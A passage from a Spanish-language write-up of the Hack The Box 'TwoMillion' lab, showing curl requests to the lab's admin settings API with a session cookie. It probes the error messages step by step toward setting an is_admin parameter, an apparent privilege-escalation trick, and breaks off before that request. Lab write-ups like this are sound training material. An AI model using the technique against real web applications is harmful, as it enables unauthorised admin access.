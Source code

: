 ![img](/assets/img/post/twomillion/8148fa51-b34e-4e1e-b6c9-10cee6613ca4.png)

Esta vez no obtenemos un error ```401 Unauthorized```, sino que la api responde con ```Invalid content type``` . Vamos a introducir un ```Header Content-Type``` a ver que sucede

```bash
curl -s -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=rpf1pkevrhofovndhpd4d4nbl6" --header "Content-Type: application/json" | jq
```

![img](/assets/img/post/twomillion/e27eab46-24e3-46a8-ae23-0ae7afa42530.png)

Resulta que recibimos otro mensaje de error, vamos a hacerle caso y vamos a introducir un parametro ```email``` junto con la petición

```bash
curl -s -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=rpf1pkevrhofovndhpd4d4nbl6" --header "Content-Type: application/json" --data '{"email":"test@test.com"}' | jq
```

![img](/assets/img/post/twomillion/a9203bd6-5c21-4de6-847b-70607ac86f49.png)

Un nuevo mensaje de error, nos indica que falta un parámetro ```is_admin``` , vamos a introducirlo con la petición
